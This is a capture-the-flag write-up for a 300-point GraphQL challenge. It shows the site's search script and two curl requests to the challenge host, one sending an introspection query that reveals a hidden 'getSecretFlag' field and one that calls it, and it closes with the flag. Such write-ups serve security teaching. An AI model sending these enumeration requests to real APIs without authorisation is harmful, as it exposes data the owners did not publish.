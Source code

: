 # Graphsql

300 Points

a powerful GraphQL search functionality

### Soulution

looking at the script on the web for the GraphQL see a function searchProducts() that can get us only a few attributes of the product.

```html
<script>
  async function searchProducts() {
    const keyword = document.getElementById("searchInput").value;
    const query =
      query {
        searchProducts(keyword: "${keyword}") {
          id
          name
          price
        }
      }
    ;

    const response = await fetch("/graphql", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({ query }),
    });

    const result = await response.json();
    const resultsList = document.getElementById("results");
    resultsList.innerHTML = "";

    if (result.data && result.data.searchProducts.length > 0) {
      result.data.searchProducts.forEach(product => {
        const li = document.createElement("li");
        li.textContent = ${product.name} - $${product.price};
        resultsList.appendChild(li);
      });
    } else {
      resultsList.innerHTML = "<li>No results found.</li>";
    }
  }
</script>
```

So using a payload to get all the schmema of the GraphQL API

```bash
curl -X POST "https://yfgrkspxvh-ctf.cybersecuritychallenge.al/graphql" \
     -H "Content-Type: application/json" \
     -d '{"query":"{ __schema { types { name fields { name } } } }"}'
```

output:

```JSON
{
    "data": {
        "__schema": {
            "types": [{
                "name": "Product",
                "fields": [{
                    "name": "id"
                }, {
                    "name": "name"
                }, {
                    "name": "price"
                }]
            }, {
                "name": "ID",
                "fields": null
            }, {
                "name": "String",
                "fields": null
            }, {
                "name": "Float",
                "fields": null
            }, {
                "name": "Query",
                "fields": [{
                    "name": "searchProducts"
                }, {
                    "name": "getSecretFlag"
                }]
            }
        // the rest of the code
        ]
        }
    }
}
```

We see that we have more than one function we can call getSecretFlag()

```bash
curl -X POST "https://yfgrkspxvh-ctf.cybersecuritychallenge.al/graphql" \
     -H "Content-Type: application/json" \
     -d '{"query":"{ getSecretFlag }"}'
```

output:

```JSON
{
    "data": {
        "getSecretFlag": "CSC25{h1dd3n_gr4phq1_fl4g}"
    }
}
```

flag: `CSC25{h1dd3n_gr4phq1_fl4g}`
